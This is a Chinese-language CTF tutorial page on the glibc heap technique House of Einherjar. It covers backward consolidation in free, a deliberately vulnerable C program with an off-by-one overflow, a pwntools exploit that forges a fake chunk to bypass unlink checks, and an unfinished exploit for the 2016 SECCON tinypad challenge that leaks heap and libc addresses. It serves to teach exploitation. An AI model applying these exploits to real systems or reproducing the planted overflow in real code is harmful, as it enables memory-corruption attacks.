


# House Of Einherjar

## 介绍

house of einherjar 是一种堆利用技术，由 Hiroki Matsukuma 提出。该堆利用技术可以强制使得 malloc 返回一个几乎任意地址的 chunk 。其主要在于利用 free 中的后向合并操作（合并低地址的 chunk）

需要注意的是，在一些特殊大小的堆块中，off by one 不仅可以修改下一个堆块的 prev_size，还可以修改下一个堆块的 PREV_INUSE 比特位。

## 原理

### 后向合并操作

free 函数中的后向合并核心操作如下：

```c++
    /* consolidate backward */
    if (!prev_inuse(p)) {
        prevsize = prev_size(p);
        size += prevsize;
        p = chunk_at_offset(p, -((long) prevsize));
        unlink(av, p, bck, fwd);
    }
```



### 利用原理

- 两个物理相邻的 chunk 会共享 prev_size字段，尤其是当低地址的 chunk 处于使用状态时，高地址的 chunk 的该字段便可以被低地址的 chunk 使用。因此，我们有希望可以通过写低地址 chunk 覆盖高地址 chunk 的 prev_size 字段
- 一个 chunk PREV_INUSE 位标记了其物理相邻的低地址 chunk 的使用状态，而且该位是和 prev_size 物理相邻的
- 后向合并时，新的 chunk 的位置取决于 chunk_at_offset(p, -((long) prevsize))

那么如果我们可以同时控制一个 chunk prev_size 与 PREV_INUSE 字段，那么我们就可以将新的 chunk 指向几乎任何位置

### 利用过程

**溢出前：**


假设p0堆块可以写prev_size字段的同时存在 off by one 漏洞，可以写下一个 chunk 的PREV_INUSE部分

**溢出后：**

假设讲 p1 的 prev_size字段设置为 fake_chunk与p1位置上的插值，在溢出后通过释放p1,得到新的chunk位置 chunk_at_offset(p1, -((long) prevsize)) 即是fake_chunk的位置

当然，这里会进行 unlink操作，所以 fake_chunk 需要认为构造以绕过 unlink检测



### 攻击过程示例

```c++
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main(void){
    char* s0 = malloc(0x200);　//构造fake chunk
    char* s1 = malloc(0x18);
    char* s2 = malloc(0xf0);
    char* s3 = malloc(0x20); //为了不让s2与top chunk 合并
    printf("begin\n");
    printf("%p\n", s0);
    printf("input s0\n");
    read(0, s0, 0x200); //读入fake chunk
    printf("input s1\n");
    read(0, s1, 0x19); //Off By One
    free(s2);
    return 0;
}
```

**EXPLOIT:**

```python
from pwn import *

p = process("./example")
context.log_level = 'debug'
#gdb.attach(p)
p.recvuntil("begin\n")
address = int(p.recvline().strip(), 16)
p.recvuntil("input s0\n")
payload = p64(0) + p64(0x101) + p64(address) * 2 + "A"*0xe0
'''
p64(address) * 2是为了绕过
if (__builtin_expect (FD->bk != P || BK->fd != P, 0))                      \
  malloc_printerr ("corrupted double-linked list");
'''
payload += p64(0x100) #fake size
p.sendline(payload)
p.recvuntil("input s1\n")
payload = "A"*0x10 + p64(0x220) + "\x00" # 0x200 <- 0x200（s0)+0x20(s1)
p.sendline(payload)
p.recvall()
p.close()
```

其中，绕过unlink检测方法和利用unlink漏洞时采用的不一样：

```c
// unlink
 p->fd = &p-3*4
 p->bk = &p-2*4
// Einherjar, 此处没有得到 &p, 所以有下面的操作
p->fd = p
p->bk = p
```

此外，

`payload = p64(0) + p64(0x101) + p64(address) * 2 + "A"*0xe0`可以替换成`payload = p64(0) + p64(0x221) + p64(address) * 2 + "A"*0xe0`, 通过计算实际上0x221才是合理的值，0x101也可以的原因是对 size 和 prev_size 的验证只发生在 unlink 里面，而 unlink 里面是这样验证的:

```c++
if (__builtin_expect (chunksize(P) != prev_size (next_chunk(P)), 0))      \
      malloc_printerr ("corrupted size vs. prev_size");
```

所以只需要伪造 fake chunk 的 next chunk 的 prev_size 字段

## 总结

- 需要有溢出漏洞可以写物理相邻的高地址的 prev_size 与 PREV_INUSE 部分
- 需要计算目的 chunk 与 p1 地址之间的差，所以需要泄漏地址
- 需要在目的 chunk 附近构造相应的 fake chunk，从而绕过 unlink 的检测

## 实例-2016 Seccon tinypad(未完成)

```python
from pwn import *
context.arch='amd64'
context.log_level='DEBUG'

p = process('./tinypad')

s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num=4096           :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,'\0'))
uu64    = lambda data               :u64(data.ljust(8,'\0'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))

def add(size,content):
    ru("(CMD)>>> ")
    sl("A")
    ru("(SIZE)>>> ")
    sl(size)
    ru("(CONTENT)>>> ")
    sl(content)

def edit(index,content):
    ru("(CMD)>>> ")
    sl('E')
    ru("(INDEX)>>> ")
    sl(index)
    ru("(CONTENT)>>> ")
    sl(content)
    ru("Is it OK?")
    sl("Y")

def delete(index):
    ru("(CMD)>>> ")
    sl('D')
    ru("(INDEX)>>> ")
    sl(index)

def dbg():
    gdb.attach(p)
    pause()

add(0x80,'A'*0x80)  #id1
add(0x80,'B'*0x80)  #id2
add(0x80,'C'*0x80)  #id3
add(0x80,'D'*0x80)  #id4

delete(3)
delete(1)
# dbg()
# pwndbg> unsorted
# unsortedbin
# all: 0xa55000 -> 0xa55120 -> 0x7f43c8f5bb78 (main_arena+88) <- 0xa55000

# when we delete id3 and id1, the program still print they content
# because the ptr which point to id3 and id1 was not set to NULL

# pwndbg> x/4g 0xa55120 <-id3
# 0xa55120: 0x0000000000000000  0x0000000000000091
# 0xa55130: 0x00007f43c8f5bb78  0x0000000000a55000
# pwndbg> x/4g 0xa55000 <-id1
# 0xa55000: 0x0000000000000000  0x0000000000000091
# 0xa55010: 0x0000000000a55120  0x00007f43c8f5bb78
# pwndbg>

# when program print the content of id3 and id1,
# it will print the addr of unsorted bin' header

ru("Deleted.")
ru(" #   INDEX: 1")
ru("CONTENT: ")
heap = u64(ru('\n').ljust(8,'\x00')) - 0x120
leak("heap",heap)

ru(" #   INDEX: 3")
ru("CONTENT: ")
main_arena = u64(ru('\n').ljust(8,'\x00')) - 88
leak("main_arena",main_arena)
# dbg()

# 0075f000-00780000 rw-p 00000000 00:00 0                                  [heap]
# 7f77ae730000-7f77ae8f0000 r-xp 00000000 08:01 1313692                    /lib/x86_64-linux-gnu/libc-2.23.so
# 7f77ae8f0000-7f77aeaf0000 ---p 001c0000 08:01 1313692                    /lib/x86_64-linux-gnu/libc-2.23.so
# 7f77aeaf0000-7f77aeaf4000 r--p 001c0000 08:01 1313692                    /lib/x86_64-linux-gnu/libc-2.23.so
# 7f77aeaf4000-7f77aeaf6000 rw-p 001c4000 08:01 1313692                    /lib/x86_64-linux-gnu/libc-2.23.so

# pwndbg> x/x &main_arena
# 0x7f77aeaf4b20 <main_arena>:  0x0000000100000000
# pwndbg>

offset = 0x7f77aeaf4b20 - 0x7f77ae730000

libc_base = main_arena - offset
leak("libc_base",libc_base)

delete(2)
delete(4)

add(0x18, "A"*0x18)
add(0x100, "B"*0xf8 + p64(0x11))
add(0x100, "C"*0x100)
add(0x100, "D"*0x100)
# dbg()
tinypad = 0x602040
offset = heap + 0x20 - 0x602040 - 0x20
fake_chunk = p64(0) + p64(0x101) + p64(0x602060) * 2

edit(3, "D"*0x20 + fake_chunk)
# dbg()
# when we edit content contains '\x00',the strcopy will stop,
# I don't know why the wps on internet could get contnet fully
```
